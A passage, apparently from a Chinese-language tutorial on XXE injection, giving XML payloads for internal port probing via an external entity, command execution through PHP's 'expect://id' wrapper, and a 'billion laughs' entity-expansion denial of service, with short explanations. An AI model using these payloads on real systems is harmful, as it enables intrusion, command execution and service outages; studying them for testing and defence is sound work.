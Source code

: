 
  pare的第一行内容为`<!ENTITY % para2 "<!ENTITY % error SYSTEM 'file:///%para1;'>">`

### 3. 内网探测

和读文件差不多，只不过把URI改成内网机器地址

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
	<!ELEMENT foo ANY >
	<!ENTITY rabbit SYSTEM "http://192.168.1.1：81/mark4z5" >
]>
<user>
<firstname>&rabbit;</firstname>
<lastname>666</lastname>
</user>
```

![image-20220811145102265](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145102265.png)

![image-20220811145112839](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145112839.png)

该CASE是探测192.168.1.1的80、81端口，通过返回的“Connection refused”可以知道该81端口是closed的，而80端口是open的。

### 4. RCE

![image-20220811145231455](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811145231755.png)

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令，其他协议也有可能可以执行系统命令，比如`php://input`、`php://filter`等。

### 5. DOS

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
